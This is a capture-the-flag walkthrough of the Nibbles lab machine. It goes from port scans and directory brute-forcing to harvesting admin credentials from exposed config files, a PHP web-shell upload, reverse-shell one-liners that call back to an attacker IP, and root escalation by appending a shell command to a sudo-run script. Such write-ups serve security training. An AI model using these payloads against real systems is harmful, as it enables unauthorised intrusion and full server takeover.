 # Nibbles

1. Nmap scan for default open ports and ouput all formats:
```
nmap -sV --open -oA nibbles_initial_scan 10.129.200.170

Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-30 05:18 BST
Nmap scan report for 10.129.200.170
Host is up (0.028s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.59 seconds
```

2. Nmap scan for all open ports and output all formats:
```
nmap -p- --open -oA nibbles_full_tcp_scan 10.129.200.170

Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-30 05:19 BST
Nmap scan report for 10.129.200.170
Host is up (0.060s latency).
Not shown: 60794 closed tcp ports (conn-refused), 4739 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 34.33 seconds

```

3. Nmap script scan:
```
nmap -sC -p22,80 -oA nibbles_script_scan 10.129.200.170

Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-30 05:22 BST
Nmap scan report for 10.129.200.170
Host is up (0.0045s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 c4f8ade8f8047decf150d630a187e49 (RSA)
|   256 228fb197bf0f170fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f113c34a55d5beb3de9 (ED25519)
80/tcp open  http
|_http-title: Site doesn't have a title (text/html).

Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds

```

4. Nmap enumeration using the [http-enum script](https://nmap.org/nsedoc/scripts/http-enum.html):
```
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.200.170

Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-30 05:26 BST
Nmap scan report for 10.129.200.170
Host is up (0.027s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

5. Banner grab with `netcat` on both the ports:
```
nc -nv 10.129.200.170 80
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 10.129.200.170:80.
^C

nc -nv 10.129.200.170 22
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 10.129.200.170:22.
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
```

6. `whatweb` to identify the web application in use:
```
whatweb 10.129.200.170

http://10.129.200.170 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.200.170]
```

7. Check the web application using curl:
```
curl 10.129.200.170

<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

8. Using `whatweb` check the /nibbleblog/ directory obtained from the previous step:
```
whatweb 10.129.200.170/nibbleblog

http://10.129.200.170/nibbleblog [301 Moved Permanently] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.200.170], RedirectLocation[http://10.129.200.170/nibbleblog/], Title[301 Moved Permanently]
http://10.129.200.170/nibbleblog/ [200 OK] Apache[2.4.18], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.200.170], JQuery, MetaGenerator[Nibbleblog], PoweredBy[Nibbleblog], Script, Title[Nibbles - Yum yum]
```

9. Quick Google search for Nibbleblog exploit gets use [Nibbleblog File Upload Vulnerability](https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload/).

10. Quick directory brute force:
```
gobuster dir -u http://10.129.200.170/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.200.170/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/05/30 05:38:14 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 304]
/.htaccess            (Status: 403) [Size: 309]
/admin                (Status: 301) [Size: 327] [--> http://10.129.200.170/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]                                             
/.htpasswd            (Status: 403) [Size: 309]                                              
/content              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]                                               
/languages            (Status: 301) [Size: 331] [--> http://10.129.200.170/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/plugins/]  
/README               (Status: 200) [Size: 4628]                                                 
/themes               (Status: 301) [Size: 328] [--> http://10.129.200.170/nibbleblog/themes/]   
                                                                                                 
===============================================================
2023/05/30 05:38:17 Finished
===============================================================
```

11. Running `curl` on the /nibbleblog/README page gives us the version number:
```
curl http://10.129.200.170/nibbleblog/README

====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01

<SNIP>
```

12. Going to the `/admin.php` and trying out some of the following passwords does not work and blocks us out:
  - `admin:admin`
  - `admin:password`

13. Going through the `/nibbleblog/content/` directory we confirm `admin` is a valid username from `/nibbleblog/content/private/users.xml`
```
curl -s http://10.129.200.170/nibbleblog/content/private/users.xml | xmllint  --format -
```    

14. Going through the `/nibbleblog/content/` directory we confirm `nibbles` is a valid passowrd from `/nibbleblog/content/private/config.xml`
```
curl -s http://10.129.200.170/nibbleblog/content/private/config.xml | xmllint  --format -
```

15. Once logged into the admin portal using `admin:nibbles` we go through all the links and find `My Image` plugin uses the file upload feature.

16. Using the information from the previous steps we create a `.php` file with the following contents and upload it using the upload feature:
```
<?php system('id'); ?>
```

17. From the dir bruteforce information we gathered earlier we remember that there is a `/nibbleblog/content/private/plugins/my_image/` directory. Going to this directory we find our uploaded file. At this point we have gained RCE on the server and the Apache web server is running in the `nibbler`context.
```
curl http://10.129.200.170/nibbleblog/content/private/plugins/my_image/image.php
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

13. We update the `.php` file with the following to give us a reverse shell:
```
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <OUR_IP> <PORT> >/tmp/f"); ?>
``` 

14. Started a `netcat` listener on our local host:
```
nc -lvnp 9443
```

15. When we visit the uploaded file our listener catches the reverse shell. Since it is not a fully interactive TTY we upgrade it using the following command in the shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

16. In the `nibbler` users home directory we find `user.txt` and `personal.zip`.

17. After unzipping the `personal.zip` we find `monitor.sh`. Leaving that aside for now we perform some automated privesc by download [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) on our local machine and serve it using the following command:
```
sudo python3 -m http.server 8080
```

18. Using `wget` on the remote host we get the serverd `LinEnum.sh` file and change it to be executable and run it:
```
chmod +x LinEnum.sh
./LinEnum.sh
```

19. From the output of the previous command we learn that `nibbler` users is able to run `monitor.sh` as `root`. So we append a reverse-shell one-liner to `monitor.sh` and execute (Before executing it we will have a `nc` listener on our local machine).
```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.74 8443 >/tmp/f' | tee -a monitor.sh

sudo /home/nibbler/personal/stuff/monitor.sh 
```

20. Once `monitor.sh` executes our listener catches the reverse shell. Which is a root shell 🎉